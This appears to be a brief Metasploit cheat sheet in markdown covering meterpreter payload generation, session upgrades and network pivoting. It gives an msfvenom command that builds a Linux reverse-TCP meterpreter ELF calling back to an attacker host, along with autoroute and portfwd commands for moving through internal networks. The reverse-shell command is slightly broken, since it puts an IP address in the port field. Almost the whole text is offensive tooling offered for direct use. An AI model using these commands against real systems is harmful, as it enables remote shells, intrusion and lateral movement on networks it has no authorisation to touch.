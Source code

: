 # Metasploit

## meterpreter

### Payload generation

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$me LPORT=172.18.0.2 --format=elf -o /tmp/rev
```

### Upgrading to meterpreter

- Use the `post/multi/manage/shell_to_meterpreter` module to upgrade.
- Use `sessions -u id` to upgrade a session.

## pivoting

```shell
run autoroute -s 10.10.10.0/24
```

```shell
run autoroute -p
```

```shell
portfwd add -l 1234 -p 80 -r $ip
```
